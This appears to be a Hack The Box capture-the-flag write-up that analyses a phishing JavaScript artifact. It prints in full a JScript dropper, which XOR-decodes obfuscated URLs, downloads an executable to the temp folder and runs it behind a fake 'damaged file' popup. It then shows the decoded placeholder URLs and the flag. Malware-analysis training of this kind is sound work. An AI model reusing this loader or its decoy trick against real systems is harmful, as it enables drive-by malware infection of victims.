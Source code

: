 
# Description

We managed to retrieve some artifacts from a recent phishing incident. To further investigate the attack we need to analyse the provided document. Examine it and find out what the next steps of the malware are.

# Solution

Checking provided zip file. After extracting it I found artifacts.js file.

![](Pasted%20image%2020241202135134.png)

```javascript
var urls = ["loqKjo3E0dGTl4yfl5mMkYuO0JaKnNGJjtOXkJ2Si5qbjdGJlZ2Jx87MzsvR", "loqKjo3E0dGZm5HTl4rQloqc0Z2NjdGPzYTNkpSRzcfK0baqvIXOnJiLjZ3Kis+QmaGKls2hrYqMz5CZjaHPjaGQzoqhzZDOi5mWgw==", "loqKjo3E0dGdn4ybm4zQloqc0YmO052RkIqbkIrRzpCEjo6Gj8rH0Q==", "loqKjo3E0dGZm5HTl4rQloqc0Z2NjdGPzYTNkpSRzcfK0Q==", "loqKjsTR0YmJidCdnJCQm4mNmpeMm52K0JaKnNGJkYyajoybjY3Ry5LPlY6GysvR", "loqKjo3E0dGVn4yHn4qWn5LQloqc0YmO052RkIqbkIrRzM3P0Q=="],
    activeXObject = "ActiveXObject";

function xd(e, n) {
    for (var t = new Uint8Array(e.length), l = 0; l < e.length; l++) t[l] = e[l] ^ n;
    return t
}

function bnx(e, n) {
    for (var t = atob(e), l = new Uint8Array(t.length), o = 0; o < t.length; o++) l[o] = t.charCodeAt(o);
    return xd(l, n)
}

function dd(e) {
    var n = new activeXObject("MSXML2.XMLHTTP");
    return (n.open("GET", e, !1), n.send(), 200 == n.status) ? n.ResponseBody : null
}

function gop() {
    var e = new activeXObject("Scripting.FileSystemObject"),
        n = "\\" + Math.random().toString(36).substr(2, 9) + ".exe";
    return e.GetSpecialFolder(2) + n
}

function snr(e) {
    var n = gop(),
        t = new activeXObject("ADODB.Stream");
    t.Open(), t.Type = 1, t.Write(e), t.Position = 0, t.SaveToFile(n, 2), t.Close(), new activeXObject("WScript.Shell").Run(n)
}

function start(e, n) {
    WshShell = WScript.CreateObject("WScript.Shell"), Text = atob("VGhlcmUgd2FzIGFuIGVycm9yIG9wZW5pbmcgdGhpcyBkb2N1bWVudC4gVGhlIGZpbGUgaXMgZGFtYWdlZCBhbmQgY291bGQgbm90IGJlIHJlcGFpcmVkIChmb3IgZXhhbXBsZSwgaXQgd2FzIHNlbnQgYXMgYW4gZW1haWwgYXR0YWNobWVudCBhbmQgd2Fzbid0IGNvcnJlY3RseSBkZWNvZGVkKS4"), Title = atob("Tm90IFN1cHBvcnRlZCBGaWxlIEZvcm1hdA=="), Res = WshShell.Popup(Text, 0, Title, 64), n && snr(e)
}
for (var i = 0; i < urls.length; i++) var decodedData = bnx(urls[i], 254),
    data = dd(String.fromCharCode.apply(null, decodedData));
```

I made changes to below function and ran JS online

```js
function dd(e) {
    console.log(e)
    return;
    var n = new activeXObject("MSXML2.XMLHTTP");
    return (n.open("GET", e, !1), n.send(), 200 == n.status) ? n.ResponseBody : null
}
```

This logged below result

```
https://miraigroup.htb/wp-includes/wkcw90205/
https://geo-it.htb/css/q3z3ljo394/HTB{0bfusc4t1ng_th3_Str1ngs_1s_n0t_3n0ugh}
https://career.htb/wp-content/0nzppxq49/
https://geo-it.htb/css/q3z3ljo394/
http://www.cbnnewsdirect.htb/wordpress/5l1kpx45/
https://karyathal.htb/wp-content/231/
```

And found the flag `HTB{0bfusc4t1ng_th3_Str1ngs_1s_n0t_3n0ugh}`